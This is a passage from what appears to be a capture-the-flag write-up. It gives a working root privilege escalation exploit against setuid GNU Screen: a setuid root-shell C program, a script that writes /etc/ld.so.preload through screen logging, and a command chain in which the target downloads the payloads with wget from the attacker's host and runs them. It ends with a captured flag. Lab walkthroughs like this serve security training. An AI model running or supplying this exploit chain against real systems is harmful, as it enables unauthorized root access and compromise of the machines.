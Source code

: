 #### rootshell.c

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execlp("/bin/bash", "-p", NULL);
}
```

#### pwn.sh

```sh
#!/bin/bash
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

Then perform the exploit chain:

```sh
# compile files locally on attacker VM:
❯ gcc -Wall -fPIC -shared -ldl libhax.c -o libhax.so
❯ gcc -Wall -static rootshell.c -o rootshell

# host files for download
sudo python3 -m http.server 80

# on target, download the files
cd /tmp
wget 10.10.14.8/libhax.so
wget 10.10.14.8/rootshell
wget 10.10.14.8/pwn.sh

# run exploit script
chmod +x pwn.sh
./pwn.sh
```

And here is 'root.txt':

```sh
# cat root.txt
8927e07d6860afe3806bc920a66d34a9
```

